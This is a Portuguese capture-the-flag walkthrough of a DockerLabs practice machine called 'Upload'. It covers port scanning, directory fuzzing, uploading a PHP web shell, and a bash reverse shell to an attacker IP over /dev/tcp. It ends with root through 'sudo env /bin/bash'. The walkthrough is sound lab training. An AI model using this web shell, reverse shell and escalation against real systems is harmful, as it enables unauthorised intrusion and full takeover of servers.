

maq.upload
MÁQUINA UPLOAD
Para utilizar esta máquina devemos primeiro baixar os arquivos e assim implantá-la com Docker.
Baixamos o arquivo da página https://dockerlabs.es/
Para implantar o laboratório executamos da seguinte forma, para que também possamos ver que ele nos diz a direção que teremos, bem como o que fazer quando terminarmos.
COLETA DE INFORMAÇÕES
nmap 172.17.0.2 -A -sS -sV -sC --open -p- -T5 -n -Pn
Temos a porta 80 aberta.
80/tcp open http Apache httpd 2.4.52
Agora vamos explorar a porta 80 no navegador colocando o ip da máquina http://172.17.0.3/ .

Vamos fazer um fuzzing para ver se tem pastas ocultas, com a ferramenta gobuster.
gobuster dir -u http://172.17.0.3 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x .txt,.php,.html,.py

Vamos entra na pasta /uploads http://172.17.0.3/uploads/
Vamos subir um arquivo em php através http://172.17.0.3/

nano shell.php
<?php
system($_GET['cmd']);
?>
GET é um método de solicitação usado em HTTP para enviar dados a um servidor web. Quando usado em uma URL, como em ?cmd=value, indica que um parâmetro chamado cmd está sendo passado com um valor específico. No contexto deste código PHP, ele captura o valor do parâmetro cmd passado na URL e o utiliza como um comando para executar no sistema.
Veja que o arquivo foi enviado com sucesso.
Ao clicar no shell.php,temos a URL http://172.17.0.3/uploads/shell.php .
vamos acrescentar o comando ?cmd=whoami
http://172.17.0.3/uploads/shell.php?cmd=whoami
veja que somos usuário www-data
O próximo passo, depois de verificarmos que temos execução remota de comandos na máquina, é executar um comando que envia um console interativo para nossa máquina atacante. Isso é conhecido como Shell reverso . Para fazer isso, ouvimos previamente nossa máquina atacante, por exemplo com netcat :
Vamos pegar uma reverse shell no site: https://www.revshells.com/ .
Depois vamos abrir o BURP SUITE e ir na ferramenta DECONDER e colar o reverse shell. bash -c '-i >& /dev/tcp/192.168.0.24/4444 0>&1' .
Antes de colar deixe o netcat na escuta.

Temos a reverse shell.
Agora vamos buscar privilégios root com sudo -l
Ao realizar o comando sudo -l podemos ver que podemos obter acesso root usando env.
Se formos para o site: https://gtfobins.github.io/gtfobins/env/#sudo podemos ver que temos uma maneira de obter o acesso root.
obs: tirei o /bin/sh e coloquei /bin/bash.
sudo env /bin/bash
somos root
bobmarley